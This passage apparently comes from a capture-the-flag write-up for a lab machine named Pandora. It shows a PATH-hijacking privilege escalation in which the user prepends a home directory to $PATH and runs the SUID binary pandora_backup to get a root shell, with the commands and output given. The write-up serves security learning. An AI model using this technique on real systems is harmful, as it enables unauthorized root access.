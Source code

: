 Then, let's set `$PATH` environment variable.

```bash
matt@pandora:~$ export PATH=/home/matt:$PATH
matt@pandora:~$ echo $PATH
/home/matt:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Then, I ran `pandora_backup` again, and soon `root` shell is spawned.

```bash
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:~# id
uid=0(root) gid=1000(matt) groups=1000(matt)
root@pandora:~# whoami
root
```

I got a `root` shell!